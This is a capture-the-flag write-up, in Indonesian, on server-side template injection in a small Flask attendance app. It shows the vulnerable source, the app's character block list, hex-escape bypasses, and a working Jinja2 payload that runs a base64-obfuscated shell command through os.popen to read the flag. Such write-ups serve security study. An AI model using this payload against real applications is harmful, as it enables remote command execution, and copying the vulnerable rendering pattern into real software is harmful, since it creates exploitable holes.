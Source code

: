 # SSTI

## Analisa source code

```py
from flask import Flask, render_template_string, request, redirect, url_for, session

app = Flask(__name__)
app.secret_key = 'Devit Ganteng :]'

@app.route('/')
def index():
    tasks = session.get('tasks', 'Hallo sayang absen yuks !! h3h3h3 muachh ')

    # Template HTML
    template_string = """
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Simple Absen List</title>
    </head>
    <body>
        <h1>Nino Absen List</h1>
        <form action="{{ url_for('add') }}" method="post">
            <label for="task">Absen Kuy:</label>
            <input type="text" id="task" name="task" required>
            <button type="submit">Absen</button>
        </form>
        <ul>
            <li>
                """+tasks+"""
            </li>
        </ul>
    </body>
    </html>
    """

    return render_template_string(template_string, tasks=tasks)

@app.route('/add', methods=['POST'])
def add():
    task = request.form.get('task')
    #filtering
    not_allowed = ["app.py","app","app.","flag.txt","*", ">", "<", ">>", "|", "&", "$", ";","~","[","]","#","!","-"]
    for keyword in not_allowed:
        if keyword in task:
            session['tasks']="Kamu tidak boleh melakukan hal itu !! Sayang"
            return redirect(url_for('index'))
    #end filtering
    session['tasks'] = "Hallo 👋 "+task+" Terimakasih sudah absen"

    return redirect(url_for('index'))

if __name__ == '__main__':
    app.run(debug=False)
```

#### Vulnerability

```bash
return render_template_string(template_string, tasks=tasks)
```

penjelasan :</br></br>
Pada baris ini, template string dirender menggunakan fungsi render_template_string. SSTI terjadi karena template_string dapat berisi string yang dieksekusi oleh Jinja2.

#### Not allowed char

```bash
app.py , app, app., flag.txt, *, >, <. >>. |, &, $, ;, ~, [, ], #, !, -
```

#### Basic injection

```bash
{{100/10}}
```

### Bypass

```bash
   . = \x2E
   * = \x2A
   > = \x3E
   < = \x3C
   >> = \x3E\x3E
   | = \x7C
   & = \x26
   $ = \x24
   ; = \x3B
   ~ = \x7E
   [ = \x5B
   ] = \x5D
   # = \x23
   ! = \x21
   - = \x2D
```

### Flag location

```bash
├── api
│   ├── app.py
│   ├── nino
│   │   ├── flag
│   │   │   └── flag.txt
│   │   └── flag.txt
│   └── __pycache__
│       └── app.cpython-310.pyc
├── flag.txt
├── requirements.txt
└── vercel.json
```

### Payload

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "Y2F0IGFwaS9uaW5vL2ZsYWcvZmxhZy50eHQ=" \x7C base64 \x2Dd \x7C bash').read() }}
```

### Automation

```bash
python3 main.py
```

```bash
├── api
│   ├── app.py
│   ├── nino
│   │   ├── flag
│   │   │   └── flag.txt
│   │   └── flag.txt
│   └── __pycache__
│       └── app.cpython-310.pyc
├── flag.txt
├── requirements.txt
└── vercel.json
```
